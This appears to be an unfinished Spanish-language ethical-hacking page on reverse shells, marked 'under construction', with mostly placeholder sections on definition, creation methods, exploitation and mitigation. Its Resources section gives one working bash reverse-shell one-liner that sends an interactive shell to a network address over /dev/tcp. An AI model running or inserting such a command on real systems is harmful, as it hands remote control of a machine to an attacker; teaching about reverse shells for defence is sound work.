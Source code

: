```yaml
---
title: "Reverse Shells"
description: "Todo sobre las Reverse Shells en hacking ético"
---
```


# Reverse Shells

> **Entrada en construcción.**  
> Este contenido está en desarrollo, ¡vuelve pronto!

---

## ¿Qué es una Reverse Shell?
Describiré cómo una Reverse Shell permite a un atacante recibir una conexión desde la máquina comprometida.

## Métodos de creación
- Usando Netcat, Bash, Python, etc.

## Explotación
Explicaré cómo establecer una Reverse Shell en un entorno controlado y ético.

## Mitigación
Cómo detectar y bloquear Reverse Shells en sistemas.

## Recursos
- Scripts de ejemplo: `bash -i >& /dev/tcp/10.0.0.1/4444 0>&1`.
- Enlaces a herramientas relacionadas.